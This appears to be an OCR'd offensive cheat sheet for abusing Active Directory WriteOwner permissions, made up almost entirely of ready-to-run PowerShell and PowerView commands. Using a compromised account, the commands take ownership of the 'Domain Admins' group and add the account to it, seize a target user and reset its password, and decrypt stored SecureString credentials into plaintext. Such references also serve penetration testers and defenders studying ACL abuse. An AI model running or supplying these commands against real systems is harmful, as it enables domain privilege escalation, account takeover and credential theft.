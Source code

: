 _WriteOwner_

```
$CompromisedUserName = 'CompromisedUserName'
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass

Set-DomainObjectOwner -Credential $Cred -Identity "Domain Admins" -OwnerIdentity CompromisedUser
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity CompromisedUser -Rights All
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CompromisedUser' -Credential $Cred
```

_WriteOwner_ (For User)

```
$Password = ConvertTo-SecureString '@Password!' -AsPlainText -Force
```

```
$TargetUser = 'TargetUser'
```

```
$CompromisedUser = 'CompromisedUser'
```

```
Set-DomainObjectOwner -Identity $TargetUser -OwnerIdentity $CompromisedUser
```

```
Add-DomainObjectAcl -TargetIdentity $TargetUser -PrincipalIdentity $CompromisedUser -Rights all
```

```
set-adaccountpassword -identity $TargetUser -reset -newpassword $Password
```

Or

```
Set-DomainUserPassword -Identity $TargetUser -accountpassword $Password
```

\*Uncover Secure String Passwords

If credentials are in an xml

```
$cred = Import-Clixml -Path .\credentials.xml
```

```
[System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($cred))
```

```
$cred.GetNetworkCredential().password
```
